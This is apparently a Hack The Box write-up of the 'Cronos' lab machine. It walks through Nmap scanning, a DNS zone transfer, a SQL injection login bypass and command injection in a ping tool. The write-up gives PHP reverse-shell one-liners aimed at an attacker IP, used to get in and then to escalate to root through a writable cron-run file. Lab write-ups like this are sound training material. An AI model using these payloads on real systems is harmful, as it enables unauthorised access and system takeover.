

MEDIUM - CRONOS
1. Recon
Nmap
I started pinging the target to check if it was a Linux or a Windows system. The Time-To-Live (ttl) was 63, which is very close to 64, so it was a Linux system. Had it been close to 128 (or 128) it would have been a Windows system. After that I conducted an Nmap scan to detect active services on the target using -p- to scan all ports. Given that it was a Hack The Box machine (a controlled environment), I optimized the scan for speed using the following flags: --min-rate 5000, -sS for a SYN scan, -Pn to skip the host discovery stage, -n to skip reverse DNS resolution and -T5 for higher speed.


The scan revealed the following open ports:
- SSH on port 22.
- DNS on port 53.
- HTTP on port 80.
Next, I performed a more detailed scan on those ports with service version detection (-sV) and used the Nmap Scripting Engine (NSE) with default scripts (-sC). I saved the output for reference using the -oN flag.

Website - TCP 80
Then I ran gobuster to brute force hidden directories but I couldn´t find any files or directories. Navigating to the site I found the default apache2 page.


Since the scan revealed a DNS service running on the target, I used nslookup to verify that the target, 10.10.10.13, was indeed the default DNS server on the network. Additionally, I queried the server to identify the domain it was associated with. The response confirmed that the target was resolving to ns1.cronos.htb, indicating that the target was handling DNS requests for the cronos.htb domain.

After identifying the DNS server, I used dig to attempt a zone transfer (AXFR) on the cronos.htb domain, with the target as the DNS server (10.10.10.13). The zone transfer was successful and revealed some subdomains. I added those subdomains to the /etc/hosts file and then navigated to each of them.


As cronos.htb didn´t contain anything which seemed to be useful at first, I kept going.

2. Gaining Access
Navigating to admin.cronos.htb revealed a login panel. I intercepted the login POST request using BurpSuite and sent it to Repeater to test for potential SQL injection vulnerabilities. After trying various payloads, I successfully bypassed the authentication using the payload ' OR '1'='1'-- -. This SQL injection tricked the application into granting access by always evaluating the condition as true.


After gaining access to the login panel, I discovered a tool that allowed me to execute ping and traceroute commands against any IP address I entered. Upon pressing the execute button, the output displayed was identical to the Linux command line output for the ping command. This behavior suggested the possibility of a Remote Code Execution vulnerability. To test this, I tried appending |whoami to the input, which successfully executed the command and returned the current user name.


Using the payload | php -r '$sock=fsockopen("10.10.14.12",5555);exec("/bin/sh -i <&3 >&3 2>&3");', I established a reverse shell connection to my command line. This allowed me to execute commands on the target machine and retrieve the user flag.


3. Privilege Escalation
Root
I tried checking if I had any sudo permissions but I needed the password to do so. So I decided to start a HTTP server with Python and serve pspy64 to run it on the target and find some possible services running in the background. After some time /bin/sh -c php /var/www/laravel/artisan was run as root so I checked if I had write permissions on it and I did.
I attempted to check for any sudo permissions but found that I needed the password to do so. After that I started a HTTP server using Python to serve the pspy64 tool, and ran it to identify processes running in the background without needing elevated privileges. After some time, I noticed that the command /bin/sh -c php /var/www/laravel/artisan was executed as root. I then checked for write permissions on this file and confirmed that I had the ability to modify it.


Using echo -e '#!/usr/bin/env php\n<?php\n$sock = fsockopen("10.10.14.12", 5555);\nexec("/bin/sh -i <&3 >&3 2>&3");' > artisan I generated a new artisan file containing the PHP reverse shell code. After some time, this file was executed again as root. As a result, I gained root permissions and was able to retrieve the root flag.